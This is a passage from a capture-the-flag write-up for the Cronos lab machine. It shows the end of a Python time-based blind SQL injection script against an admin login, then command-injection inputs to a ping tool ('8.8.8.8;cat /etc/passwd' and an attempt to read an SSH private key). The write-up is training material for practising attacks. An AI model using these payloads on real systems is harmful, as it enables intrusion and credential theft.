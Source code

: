 ```python
            }

            p1.status(post_data['username'])
            time_start = time.time()
            r = requests.post(admin_url, data=post_data)
            time_end = time.time()

            if time_end - time_start > 3:
                data += character
                p2.status(data)
                break

if __name__ == "__main__":

    makeRequest()
```

```bash
./bin/python3 sqli.py
```

<br />
<img src="{{ site.img_path }}/cronos_writeup/Cronos_19.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/cronos_writeup/Cronos_20.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/cronos_writeup/Cronos_21.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/cronos_writeup/Cronos_22.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/cronos_writeup/Cronos_23.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/cronos_writeup/Cronos_24.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

It is not necessary to create the tool, since it can be bypassed with the injection, but the automation of the attack is a great opportunity to practice scripting. After accessing the administration panel, there is implemented software related to networking, but also with two options that are typical **Linux** programs (`traceroute` and `ping`). I can get a trace on my machine with `tcpdump`, which makes me think that a Linux command is being executed. If I concatenate another command, I can get the result in the browser, so I can start enumerating the system without inconvenience, even see the content of the first flag.

```bash
# http://admin.cronos.htb/welcome.php

tcpdump -i tun0 icmp -n
# ping  10.10.14.22       :)

# 8.8.8.8;whoami          :)
# 8.8.8.8;hostname
# 8.8.8.8;ifconfig
# 8.8.8.8;ls
# 8.8.8.8;cat /etc/passwd
# 8.8.8.8;cat /home/noulis/user.txt
# 8.8.8.8;cat /home/noulis/.ssh/id_rsa      :(
```
